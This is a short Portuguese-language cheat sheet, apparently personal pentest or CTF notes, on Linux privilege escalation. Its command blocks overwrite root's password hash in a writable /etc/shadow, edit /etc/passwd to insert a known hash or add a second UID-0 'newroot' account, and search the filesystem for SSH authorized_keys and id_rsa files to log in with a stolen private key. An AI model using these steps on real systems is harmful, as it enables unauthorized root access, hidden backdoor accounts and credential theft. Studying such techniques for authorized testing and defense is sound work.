 
## Shadow Writable

```
cp /etc/shadow /home/usr

mkpasswd -m sha-512 newpassword
# Vai dar uma hash nova

nano /etc/shadow
# Substituir a hash do root com a nova hash

su
# Para entrar como root e depois é só digitar a senha
```

- Se o passwd tiver com `root:x:0:0...`, esse `x` significa que o password está armazenada no shadow
- Antes era possível só deletar o `x`


## Passwd Writable

```
openssl passwd "password"

nano /etc/passwd
# Inserir a hash gerada no lugar do x

su
# Elevar pra root com o password como "passwd"
```

- Também é possível criar um novo root user, copiando a linha de root e colocando como `newroot` em outra linha. Funciona porque o UID ainda é 0


___

# SSH 

```
find / -name authorized_keys 2> /dev/null


find / -name id_rsa 2> /dev/null
```

- Copiar a rsa
- `chmod 600 id_rsa`
- `ssh <user>@<ip> -i id_rsa`

 ____
